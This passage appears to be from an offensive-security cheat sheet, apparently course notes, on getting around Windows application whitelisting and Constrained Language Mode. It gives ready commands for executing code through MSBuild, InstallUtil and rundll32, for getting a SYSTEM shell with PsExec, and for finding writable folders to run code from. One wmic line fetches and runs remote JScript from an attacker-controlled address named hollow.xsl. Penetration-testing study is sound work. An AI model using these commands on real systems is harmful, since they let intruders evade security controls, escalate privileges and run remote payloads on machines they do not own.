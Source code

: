 Compile & Execute

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .\legit.xml
```

#### InstallUtil

Sample C# program using [CLM Bypass](../src/csharp/UninstallerRunspaceBypass.cs)

Execute

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U .\UninstallerBypass.exe
```

#### SysInternals PsExec

```
# grab SYSTEM shell
> PsExec64.exe -i -s cmd

# specify user
> psexec64.exe -i -u "NT AUTHORITY\Network Service" cmd.exe
```

#### XSL Transform

Execute Jscript code via a remote XSLT file. Start with this [XSL Stub](../src/misc/Stub-Jscript.xsl)

```
cmd.exe>wmic process get brief /format:"http://192.168.49.83/hollow.xsl"
```

### Application Whitelisting

#### Access Checks

```
# find writeable folders via sysinternalssuite
accesschk.exe "student" C:\Windows -wus

# find executable folders via icacls
icacls.exe C:\Windows\Tasks

# or 
icacls.exe c:\windows\System32\spool\drivers\color
```

#### Code Execution via DLLs

```
rundll32 c:\tools\testdll.dll,run
```

#### Executing code from c:\windows\installer\
